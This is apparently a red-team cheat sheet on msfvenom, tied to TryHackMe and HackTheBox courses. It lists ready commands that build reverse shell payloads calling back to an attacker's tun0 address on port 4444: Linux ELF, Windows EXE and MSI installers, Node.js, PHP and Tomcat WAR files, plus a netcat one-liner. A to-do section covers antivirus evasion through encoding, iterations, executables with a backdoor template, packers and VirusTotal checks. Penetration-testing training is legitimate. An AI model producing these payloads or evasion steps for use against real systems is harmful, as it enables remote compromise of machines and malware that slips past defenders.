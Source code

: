 # 🐍 msfvenom 🐍

[![introtoshells](../../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![metasploitexploitation](../../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)
[![fileuploadattacks](../../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)

<div class="row row-cols-lg-2"><div>

msfvenom is a tool of the [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) framework to generate payloads for reverse shells. We can customize payloads according to:

* 🎠 the program executing the payload <small>(PHP, python...)</small>
* 🏡 the target operating system
* 🛡️ the presence and configuration of a firewall
* 🔫️ the presence and configuration of an antivirus
* ...

```ps
$ msfvenom --list payloads
$ msfvenom --list payloads | grep meterpreter
```
</div><div>

msfvenom is often used with the [msfconsole](/cybersecurity/red-team/tools/frameworks/metasploit/_files/msf_handler.md) to catch them and pop a meterpreter shell <small>(see Metasploit framework, in short, an upgraded shell)</small>.

Metasploit separated **staged** payloads from **inline** payloads. The former is involving two steps: a simple payload <small>(called stage/stager)</small> is sent, which then request the rest of the payload. They are mainly used when there is a restriction on the size of the payload.

In Metasploit, the `_` is replaced with a `/` for staged payloads.

* `php/meterpreter_reverse_tcp`: inline/single
* `php/meterpreter/reverse_tcp`: staged
</div></div>

<hr class="sep-both">

## 🐸 Common options 🐸

<div class="row row-cols-lg-2"><div>

**-p** to define the payload to use.

```ps
$ msfvenom -p cmd/unix/reverse_netcat [...]
```

**LHOST/LPORT** to define where the target will connect back.

```ps
$ msfvenom [...] LHOST=tun0 LPORT=4444
```

**-f** to define the format of the output. For instance, raw code.

```ps
$ msfvenom [...] -f raw
$ msfvenom [...] R # same for -f RAW
```
</div><div>

**-e** to define the encoding. It's mainly used to bypass firewall or reduce the size of the payload.

```ps
$ msfvenom [...] -e php/base64
```
</div></div>

<hr class="sep-both">

## 📌 Some payloads 📌

All examples are asking the target to connect back to `tun0` IP at the port `4444`.

<div class="row row-cols-md-2 mt-3"><div>

* **Linux** (.elf / ...)

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (RAW) opening a reverse shell with netcat
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 -f raw
```

* **Windows** (.exe / .msi / ...)

```bash
# Generate a .exe opening a reverse shell (TCP)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe
# Generate a malicious installer (msi)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f msi -o shell.msi
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very unstable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# meterpreter
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```

* **Tomcat**

```bash
# works with Tomcat 7.8
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=4444 -f war -o revshell.war
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Payload Encoding: make the payload comptabible with different architectures and help with antivirus evasion.

* Shikata Ga Nai (SGN): good but still detected by modern antivirus. `-e x86/shikata_ga_nai`
* Use iterations to make it harder to detect: `-i 10`
* Password-protected archives are an additional antivirus evasion technique
* backdoored executable: use executable templates to hide the code
* Packers are also an alternative: [polypack](https://jon.oberheide.org/files/woot09-polypack.pdf)
</div><div>

Other options:

* `-a x86`: explicit architecture
* `--platform windows`: explicit platform
* `-k`: with backdoored executable, the original executable still runs as it was. If started from a terminal, a new terminal will (still) pop.
* `-x xxx.exe`
* `-o xxx.exe`

Test on Virus Total: `msf-virustotal -k <API key> -f xxx.exe`
</div></div>